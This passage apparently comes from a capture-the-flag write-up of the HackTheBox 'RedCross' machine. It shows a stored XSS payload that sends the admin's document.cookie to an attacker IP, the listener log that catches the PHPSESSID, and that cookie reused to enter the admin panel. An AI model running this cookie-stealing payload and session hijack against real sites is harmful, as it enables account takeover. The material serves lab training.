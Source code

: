 #### 4.1. Deliver XSS payload to admin page
```
# call='<script>window.onload=function(){window.location="http://10.10.14.25?c="+document.cookie;}</script>'
# http -f -v --verify=no https://intra.redcross.htb/pages/actions.php \
subject=credentials body="username=xxxxx" cback="$call" action=contact
```


#### 4.2. Admin session cookie
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.113 - - [07/Feb/2019 15:37:08] "GET /?c=PHPSESSID=o5qlkdh2hd0b1fl6c90mdt7eg0;%20LANG=EN_US;%20SINCE=1549571160;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 200 -
```


#### 4.3. Admin panel access
```
# site='https://admin.redcross.htb'
# cookie='PHPSESSID=o5qlkdh2hd0b1fl6c90mdt7eg0'
# http --verify=no "$site/?page=cpanel" Cookie:"$cookie" -b
```
